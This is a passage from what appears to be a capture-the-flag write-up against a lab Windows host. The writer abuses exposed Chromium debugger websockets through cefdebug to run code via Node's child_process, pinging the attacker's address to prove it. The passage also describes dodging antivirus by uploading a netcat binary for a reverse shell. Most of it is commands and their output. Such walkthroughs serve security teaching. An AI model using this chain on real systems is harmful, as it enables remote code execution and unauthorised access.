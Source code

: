 ```
*Evil-WinRM* PS C:\Users\alcibiades\Documents> .\cefdebug.exe
cefdebug.exe : [2022/04/21 23:25:05:9854] U: There are 6 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2022/04/21 23:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2022/04/21 23:25:26:0629] U: There were 4 servers that appear to be CEF debuggers.
[2022/04/21 23:25:26:0629] U: ws://127.0.0.1:37224/2d6f7524-0714-4916-8004-3ed04d79623b
[2022/04/21 23:25:26:0629] U: ws://127.0.0.1:30749/1cdb8fc2-f55d-41f1-b8e4-eaccbba3352c
[2022/04/21 23:25:26:0629] U: ws://127.0.0.1:11373/777cea14-c2ba-4d5c-9ebb-ac3fad43d407
[2022/04/21 23:25:26:0629] U: ws://127.0.0.1:49149/05e41fb2-fcd7-4a00-8e10-530e0dc3137b

*Evil-WinRM* PS C:\Users\alcibiades\Documents> ./cefdebug.exe --url ws://127.0.0.1:49149/05e41fb2-fcd7-4a00-8e10-530e0dc3137b --code "process.mainModule.require('child_process').exec('ping /n 2 10.10.16.2')"
cefdebug.exe : [2022/04/21 23:25:57:5773] U: >>> process.mainModule.require('child_process').exec('ping /n 2 10.10.16.2')
    + CategoryInfo          : NotSpecified: ([2022/04/21 23:... 2 10.10.16.2'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2022/04/21 23:25:57:5773] U: <<< ChildProcess

┌──(root💀kali)-[/home/kali]
└─# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
02:02:14.170085 IP bruh.htb > 10.10.16.2: ICMP echo request, id 1, seq 1, length 40
02:02:14.170110 IP 10.10.16.2 > bruh.htb: ICMP echo reply, id 1, seq 1, length 40
02:02:15.129116 IP bruh.htb > 10.10.16.2: ICMP echo request, id 1, seq 2, length 40
02:02:15.129130 IP 10.10.16.2 > bruh.htb: ICMP echo reply, id 1, seq 2, length 40

```

Sweet, it works, despite the errors being shown. I can't upload an msfvenom payload because of the antivirus, but it seems a netcat binary works.

```
*Evil-WinRM* PS C:\Users\alcibiades\Documents> upload nc64.exe
Info: Uploading nc64.exe to C:\Users\alcibiades\Documents\nc64.exe

Data: 60360 bytes of 60360 bytes copied
Info: Upload successful!
*Evil-WinRM* PS C:\Users\alcibiades\Documents> ls

    Directory: C:\Users\alcibiades\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/21/2022  11:04 PM         259584 cefdebug.exe
-a----        4/21/2022  11:28 PM          45272 nc64.exe
```

Now all I have to do it just spin up a listener and catch the shell. I also need to put the netcat binary in a globally accessible folder, so whoever is running VScode can actually access the binary.
